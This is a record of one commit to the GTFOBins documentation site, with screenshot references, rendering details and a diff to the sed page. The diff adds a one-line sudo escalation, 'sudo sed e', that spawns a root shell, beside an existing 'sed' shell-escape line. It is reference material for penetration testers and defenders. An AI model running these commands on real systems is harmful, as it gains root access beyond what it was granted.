

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sed.md, in a window 1280 px wide and 900 px high, scrolled down 709 px. Shown: the top 869 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1501 px from its top, so only the background shows below that.

Commit message:
Update sudo sed by using e command

```diff
--- a/_gtfobins/sed.md
+++ b/_gtfobins/sed.md
@@ -21,4 +21,6 @@ functions:
   sudo:
     - description: GNU version only. Also, this requires `bash`.
       code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
+    - description: Spawn interactive root shell by leveraging e(pipe) command. GNU version only.
+      code: sudo sed e
 ---
```
